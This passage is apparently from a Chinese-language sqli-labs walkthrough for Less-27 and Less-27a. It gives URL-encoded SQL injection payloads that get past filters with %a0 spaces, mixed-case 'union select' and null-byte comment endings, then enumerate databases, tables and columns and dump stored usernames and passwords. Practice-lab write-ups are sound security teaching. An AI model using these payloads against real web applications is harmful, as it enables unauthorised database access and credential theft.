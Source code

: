 **判断当前数据库**<br />http://www.web.com/sql/Less-27/?id=1'%a0union%a0select%a01,2,database();%00<br />出错，提示显示并没有**union select我们尝试将union select大小写混合**<br />http://www.web.com/sql/Less-27/?id=1111'%a0uNion%a0selEct%a01,2,database();%00<br />![](https://img-blog.csdnimg.cn/2020072220594918.png#crop=0&crop=0&crop=1&crop=1&id=iqFoj&originHeight=177&originWidth=534&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有数据库**<br />http://www.web.com/sql/Less-27/?id=1111'%a0uNion%a0selEct%a01,2,group_concat(schema_name)%a0from%a0information_schema.schemata;%00<br />![](https://img-blog.csdnimg.cn/20200722210518426.png#crop=0&crop=0&crop=1&crop=1&id=UmXAb&originHeight=181&originWidth=1526&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-27/?id=1111'%a0uNion%a0selEct%a01,2,group_concat(table_name)%a0from%a0information_schema.tables%a0where%a0table_schema='security';%00<br />![](https://img-blog.csdnimg.cn/20200722210844294.png#crop=0&crop=0&crop=1&crop=1&id=cWd4s&originHeight=174&originWidth=648&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-27/?id=1111'%a0uNion%a0selEct%a01,2,group_concat(column_name)%a0from%a0information_schema.columns%a0where%a0table_name='users';%00<br />![](https://img-blog.csdnimg.cn/2020072221094757.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=pQ8DV&originHeight=232&originWidth=1869&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码**<br />http://www.web.com/sql/Less-27/?id=1111'%a0uNion%a0selEct%a01,2,group_concat(concat_ws('~',username,password))%a0from%a0security.users;%00<br />![](https://img-blog.csdnimg.cn/20200722211052869.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=fZZzH&originHeight=225&originWidth=1877&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**

这一关也可使用报错注入因为有报错显示<br />参照Sqli-labs-Less-26 下半部分<br />注意Sqli-labs-Less-27中不需要双写or，但是需要union select大小写混合


# Sqli-labs-Less-27a 方法一![](https://img-blog.csdnimg.cn/20200723111249995.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=yTFHe&originHeight=348&originWidth=1193&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**判断注入点**<br />http://www.web.com/sql/Less-27a/?id=1'<br />没反应<br />http://www.web.com/sql/Less-27a/?id=1"<br />**没有回显，使用;%00注释**<br />http://www.web.com/sql/Less-27a/?id=1";%00<br />![](https://img-blog.csdnimg.cn/20200722212631775.png#crop=0&crop=0&crop=1&crop=1&id=AAjZ6&originHeight=184&originWidth=512&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
ok证明存在注入点

**查看列数**<br />http://www.web.com/sql/Less-27a/?id=1"%a0order%a0by%a03;%00<br />![](https://img-blog.csdnimg.cn/20200722212947100.png#crop=0&crop=0&crop=1&crop=1&id=JnWl5&originHeight=179&originWidth=556&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
存在三列
